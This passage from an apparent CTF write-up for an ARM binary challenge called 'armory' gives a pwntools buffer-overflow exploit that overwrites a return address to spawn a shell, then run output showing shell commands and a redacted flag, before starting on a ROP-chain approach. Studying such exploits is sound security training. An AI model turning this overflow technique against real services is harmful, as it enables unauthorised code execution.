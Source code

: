 ```python
#!/usr/bin/env python3

from pwn import *
import argparse

evil_ea = 0x0001052c

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("host", help="The host to connect to")
    parser.add_argument("port", help="The port to connect to")
    args = parser.parse_args()

    r = remote(args.host, args.port)

    r.sendline(b"A" * 0x44 + p32(evil_ea))

    r.interactive()
```

By running the exploit script, we can see the exploitation was successful.

```bash
python3 exploit.py localhost 4000
[+] Opening connection to localhost on port 4000: Done
[*] Switching to interactive mode
Hello, what's your name?
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,\x05\x01!
$ whoami
ctf
$ ls -la
total 28
drwxr-xr-x 1 root root 4096 Nov 29  2023 .
drwxr-xr-x 1 root root 4096 Oct 13 07:52 ..
-r-x------ 1 ctf  ctf  8316 Apr 30  2023 armory
-r-------- 1 ctf  ctf    47 Apr 30  2023 flag
-r-x------ 1 ctf  ctf    56 Apr 30  2023 run.sh
$ cat flag
ECSC{__REDACTED__}
$
```


We are now very happy to got it work, but we did not really improved our ARM skills here...
Thus we will try to exploit it using ROP to mess a bit more with ARM exploitation.

### ROPChain based exploit

What we need is to contruct a ROPChain (look at [this](http://phrack.org/issues/58/4.html#article) if you don't know about ROPs). The binary isn't designed to be exploited using ROP thus the CTF author didn't put specific gadgets in the binary. It will be a bit more difficult to chain gadgets for calling `system("/bin/dash")`.
